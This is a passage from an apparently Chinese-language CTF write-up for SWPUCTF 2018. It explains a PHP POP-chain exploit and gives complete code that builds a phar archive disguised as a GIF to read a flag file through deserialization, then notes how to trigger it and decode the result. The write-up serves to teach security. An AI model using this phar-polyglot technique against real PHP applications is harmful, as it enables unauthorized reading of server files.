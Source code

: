 其实过一遍大概就知道改怎么去构造pop链了， C1e4r 在 destruct 的时候 echo 了一下，那么就可以触发 Show 中的 `__ToString`，然后在其中可以触发 ` __get`，一直到 `file_get` 来读到 `f1ag.php` 文件，构造一个 phar 的图片

```php
<?php
    class C1e4r
    {
        public $str;
        public function __construct($name)
        {
            $this->str = $name;
        }
    }
    class Show
    {
        public $str;
        public function __construct()
        {
            $this->str = array();
        }
    }

    class Test
    {
        public $params;
        public function __construct()
        {
            $this->params = array();
        }
    }

    $obj = new Test();
    $obj->params = array('source' => '/var/www/html/f1ag.php');
    $obj1 = new Show();
    $obj1->str = array('str'=>$obj);
    $obj2 = new C1e4r($obj1);


    $p = new Phar('./1.phar', 0);
    $p->startBuffering();
    $p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
    $p->setMetadata($obj2);
    $p->addFromString('1.txt','text');
    $p->stopBuffering();
    rename('./1.phar', '1.gif');
```

题目右上角已经给出了地址，所以自己md5以下即可得到文件名，然后在查看文件的地方触发一下，得到一串base64，解码就可以得到flag了

![](/img/swpuctf-2018-web-writeup/20181220091216.png)

# 有趣的邮箱注册
